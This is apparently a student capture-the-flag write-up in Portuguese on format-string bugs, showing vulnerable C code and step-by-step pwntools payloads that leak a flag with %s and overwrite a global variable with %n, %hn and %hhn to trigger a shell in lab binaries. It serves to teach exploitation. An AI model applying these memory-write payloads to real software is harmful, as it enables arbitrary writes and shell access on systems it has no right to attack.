



# CTF Semana #5 (Format string)

## Desafio 1

### Recolha de informação

Começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`), o código fonte (`main.c`) e um script em python (`exploit_example.py`).

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

No `main.c`, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers.


### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a flag:


No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que injetasse o endereço de memória da flag e que desse print `%s`:

```py
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:


## Desafio 2

### Recolha de informação

Mais uma vez, começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`) e o código fonte (`main.c`) 

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

Tal como no desafio anterior, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers, nomeadamente o `%n`, de modo a modificarmos o valor da variável global `key` para `0xbeef` e, consequentemente, lançar uma bash.

```c
if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
} 
```

### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a key:


`0xbeef` tem o valor de **48879** em decimal, pelo que antes de `%n` teremos que escrever 48879 bytes. Sendo que o endereço da variável ocupa 4 bytes, ainda precisamos de 48875 bytes. 

Como o `buffer` apenas tem 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, sendo que precisamos de 4 (espaço de 1 endereço) + 48871 bytes:

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que alterasse o valor da `key` na memória:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:


## Desafio extra

### Recolha de informação e Reconhecimento da vulnerabilidade

Este desafio é muito semelhante ao desafio anterior, sendo que, desta vez, o endereço da variável `key` é `0x804b320`.



### Exploração da vulnerabilidade

#### Tentativa 1

Primeiramente, tentamos modificar o valor da variável global `key` usando o `%n`, tal como fizemos no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

No entanto, não foi possível obter o output esperado, pelo que `\x20` corresponde a um espaço em código ASCII, o que não permite a leitura total da string injetada.

#### Tentativa 2

Assim sendo, tentamos escrever para o endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:




```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Desta vez, a shell era de facto lançada, seguida imediatamente de um timeout, o que é justificado pelo elevado número de caracteres (mais de 12 milhões) escritos:


#### Tentativa 3

De modo a minimizar o número de caracteres escritos, optamos por usar os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

Ao executar o script, não foi possível lançar o terminal, na medida em que a string injetada ultrapassa os 32 bytes, espaço alocado ao `buffer`.

#### Tentativa 4

Por fim, usamos os format specifiers `%1$hhn` e `%2$hn` para poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

Ao executar o script, conseguimos obter a flag esperada:




